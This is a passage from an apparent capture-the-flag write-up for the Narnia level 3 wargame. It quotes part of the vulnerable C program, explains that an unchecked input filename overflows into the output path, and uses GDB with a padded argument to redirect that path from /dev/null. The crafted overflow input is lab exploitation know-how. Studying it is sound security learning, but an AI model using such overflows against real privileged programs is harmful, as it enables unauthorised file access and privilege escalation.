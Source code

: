 ```c
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

So, the source looks complex but it's not. In fact there is no boundary check on the input file. So, if we overflow **ifile**, we could overwrite the **ofile** which is statically intialized with **/dev/null**.

Let's check the value of **ofile** with GDB, to do that we need to place a breakpoint here :

```nasm
   0x0804855f <+84>:	add    esp,0x8
   0x08048562 <+87>:	push   0x2
   0x08048564 <+89>:	lea    eax,[ebp-0x18]
   0x08048567 <+92>:	push   eax
   0x08048568 <+93>:	call   0x80483c0 <open@plt> ; Right Here
```

As **ofile** pointer will be place in **EAX** we can see its value :

```nasm
$ gdb narnia3

(gdb) break *main+93
Breakpoint 1 at 0x8048568
(gdb) run test
Starting program: /narnia/narnia3 test

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd690:	"/dev/null"
```

Okay, now we restart the program with 32 bytes of garbage and add a new path...

```nasm
(gdb) run /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia3 /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd660:	"/whatever"
``` 
